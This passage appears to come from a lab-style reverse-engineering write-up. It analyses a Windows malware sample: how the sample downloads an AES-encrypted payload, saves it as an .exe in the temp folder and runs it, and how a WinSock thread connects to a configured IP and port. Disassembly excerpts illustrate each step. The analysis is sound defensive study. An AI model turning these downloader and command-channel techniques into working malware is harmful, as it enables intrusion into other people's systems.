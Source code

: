 If the download is successful, the payload is AES-decrypted and  written to a file in the Windows temporary folder. The file is named according to the `ObjectName` parameter used by the previous call to `HttpOpenRequestA`, and the extension `.exe` is added to it (if `ObjectName` already has an extension, it is erased with a null byte before). Finally, the payload is executed with a call to `CreateProcessA`.

Note: to identify the use of AES, I relied on the cryptographic constants generated at runtime (see function `0x10001000` and [here](https://golang.org/src/crypto/aes/const.go#L80) for example).

### Command "c": WinSock2 networking

If the config file contains the command `c`, a new thread is created:

```
.text:10003314 command_c: 
.text:10003314      push    offset ThreadId ; lpThreadId
.text:10003319      lea     eax, [esp+64h+Parameter
.text:1000331D      push    ebx             ; dwCreationFlags
.text:1000331E      push    eax             ; lpParameter
.text:1000331F      push    offset Winsock  ; lpStartAddress
.text:10003324      push    ebx             ; dwStackSize
.text:10003325      push    ebx             ; lpThreadAttributes
.text:10003326      mov     dword_1000D478, ebx
.text:1000332C      call    ds:CreateThread
```

Similarly to command `d`, the thread starts by retrieving connection information from the parsed config (passed in the parameter `lpThreadParameter`). Here, it gets an IPv4 and a port number and uses them to fill a `sockaddr_in` structure (code not shown as it is similar to the preceeding lab). Then, the base64-encoded string **Y29ubmVjdA==** ("connect") is sent:

```
.text:100038BB      push    ds:b64_connect
.text:100038C1      call    strlen
.text:100038C6      pop     ecx
.text:100038C7      push    eax             ; len
.text:100038C8      push    ds:b64_connect  ; data
.text:100038CE      push    esi             ; s
.text:100038CF      call    ds:send
```

A buffer of 0x1400 bytes is zeroed on the stack, and after some socket selection shenanigans, data are received in this buffer:

```
.text:100038DD      mov     edi, 1400h
.text:100038E2
.text:100038E2 loop:
.text:100038E2      push    edi             ; Size
.text:100038E3      lea     eax, [ebp+dl_buffer]
.text:100038E9      push    ebx             ; Val
.text:100038EA      push    eax             ; Dst
.text:100038EB      call    memset
[...]
.text:10003944      lea     eax, [ebp+dl_buffer]
.text:1000394A      push    edi             ; len
.text:1000394B      push    eax             ; buffer
.text:1000394C      push    esi             ; s
.text:1000394D      call    ds:recv
```
